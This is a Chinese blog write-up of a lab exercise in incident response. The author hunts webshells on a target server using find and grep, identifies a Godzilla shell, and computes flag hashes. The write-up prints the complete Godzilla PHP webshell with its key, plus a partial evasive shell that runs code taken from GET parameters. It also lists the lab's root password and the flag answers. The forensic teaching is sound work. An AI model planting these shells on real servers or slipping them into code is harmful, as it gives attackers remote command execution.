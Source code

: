 ```yaml
---
title: 玄机 第一章 应急响应 Webshell查杀
description: 玄机 第一章 应急响应 Webshell查杀 WP
pubDate: 10 15 2024
image: https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.png
categories:
  - 网络安全
tags:
  - 靶场
  - 应急响应
  - 玄机靶场
---
```


## 靶场环境

环境：69.230.239.23 / 10.0.10.3

靶机账号密码 root xjwebshell

- 黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 黑客使用的什么工具的shell github地址的md5 flag{md5}
- 黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 黑客免杀马完整路径 md5 flag{md5}

## WP

来到网站根目录，得到 `shell.php`

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-1.png)

没有 flag，find 命令寻找

```shell
find . -name "*.php"
```

寻找后得到 webshell 文件为 `./include/gz.php`，拿到 flag

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-2.png)

观察特征

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

开头的

```php
@session_start();
@set_time_limit(0);
@error_reporting(0);
```

明显是哥斯拉的，github 地址为 `https://github.com/BeichenDream/Godzilla`，加密 MD5 得到 `39392DE3218C333F794BEFEF07AC9257`，得到 flag

第三个 flag 是隐藏的 shell，挨个找呗，发现 `.Mysqli.php` 是加密的。

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-3.png)

对路径 `/var/www/html/include/Db/.Mysqli.php` MD5 加密得到 `AEBAC0E58CD6C5FAD1695EE4D1AC1919`

然后是找免杀马，文件太多了，因为是哥斯拉的木马，所以免杀文件里很有可能还有 key 字样，我们找目录下所有文件内容带 key 的 php 文件

```shell
grep -r "key" --include "*.php" /var/www/html
```

得到了一堆 php 文件，然后就挨个看吧

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.png)

发现一个特殊文件

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```

MD5加密路径得到 flag `EEFF2EABFD9B7A6D26FC1A53D3F7D1DE`
